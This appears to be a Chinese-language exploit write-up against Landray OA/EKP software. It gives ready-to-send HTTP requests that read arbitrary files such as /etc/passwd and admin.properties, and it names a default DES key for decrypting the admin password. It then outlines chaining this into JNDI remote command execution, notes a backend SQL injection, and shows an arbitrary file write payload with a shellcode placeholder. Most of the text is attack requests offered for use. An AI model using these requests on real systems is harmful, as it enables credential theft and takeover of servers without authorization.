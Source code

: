 0x01-任意文件读取

   访问/sys/ui/extend/varkind/custom.jsp
   
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: host:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 27
Connection: close
Cookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF

var={"body":{"file":"file:///etc/passwd"}}


配合任意文件读取漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 可利用 JNDI远程命令执行获取权限。

0x02 SSRF+jndi

   利用任意文件读取/WEB-INF/KmssConfig/admin.properties配置文件

POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: host:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 27
Connection: close
Cookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}

由此获得加密的password,蓝凌OA默认为DES加密，且有个默认密钥为 kmssAdminKey，可以拿着password在在线网站上尝试解密
地址  http://tool.chacuo.net/cryptdes/

![图片](https://user-images.githubusercontent.com/118274389/223748827-8fd0d2b2-6ca3-4083-92d2-6a815e25fa21.png)

0x03-EKP后台SQL注入

后台地址admin.do
   
0x04-任意文件写入漏洞

var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=[shellcode]
